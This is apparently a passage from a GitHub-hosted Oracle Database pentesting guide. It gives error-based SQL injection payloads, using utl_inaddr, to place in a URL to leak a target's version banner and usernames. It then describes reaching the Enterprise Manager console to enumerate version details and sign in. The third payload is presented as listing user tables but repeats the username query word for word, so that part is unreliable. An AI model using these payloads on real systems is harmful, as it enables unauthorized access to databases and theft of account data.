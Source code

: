 ### Using Error Messages  
In vulnerable apps, it is possible to retrieve database information via error messages. You may use the following SQL injection queries to retrieve version, usernames, user tables, etc. from the target Oracle Database. 

- Use this SQL injection query in the URL to throw an error message that will reveal the Oracle Database version used at the back end:
  ```
  ' or 1 = utl_inaddr.get_host_address((select banner from v$version where rownum=1))-
  ```
- Use this SQL injection query in URL to throw an error message that will reveal a list of all usernames in Oracle Database (11g):
  ```
  or 1=utl_inaddr.get_host_address((select sys.stragg (distinct username||chr(32)) from all_users))--
  ```
- Use this SQL injection query in URL to throw an error message that will reveal a list of all user tables and the number of rows in Oracle Database (11g):
  ```
  or 1=utl_inaddr.get_host_address((select sys.stragg (distinct username||chr(32)) from all_users))--
  ```

### Access Home Page  
The following steps will help you to access the home page of the Oracle Database. 
- Open web browser and enter the URL in the following format:  
  https://hostname:portnumber/em

- Where the hostname should be name of the host computer on which the database was installed and the portnumber will be the Enterprise Manager Console HTTP port number provided by installer. It helps you to enumerate version number and other sensitive information. While using a LUNIX or UNIX operating system, find the database control’s port number by navigating to the following path:
  `$ORACLE_HOME/install/portlist.ini file`

- If you are using Windows OS, then go to the Database Control Properties window through the following path:  
  `$ORACLE_HOME/Oracle_sid/sysman/config/emd.properties`

- Where Oracle_sid is your database instance’s system identifier, search for the `REPOSITORY_URL` to find your database control’s port number.

- After entering the URL, you will see a Sign in page. If you see Startup/Shutdown option on your database control, it represents that your database is down. Perform the following activities in such a case:
  - Click on the Startup/Shutdown option and enter host credentials followed by your database sign in credentials to start the database (by default, the database username will be SYS)
  - Now, click OK to start the database instance and then approve it by clicking on the YES option on the confirmation page.

- In the sign in page, enter the authorized user credentials that provide full access to the database.

  ![Accessing the Oracle Database home page](https://github.com/user-attachments/assets/898bd9df-34d0-411e-bb47-1d3ac7a1e186)
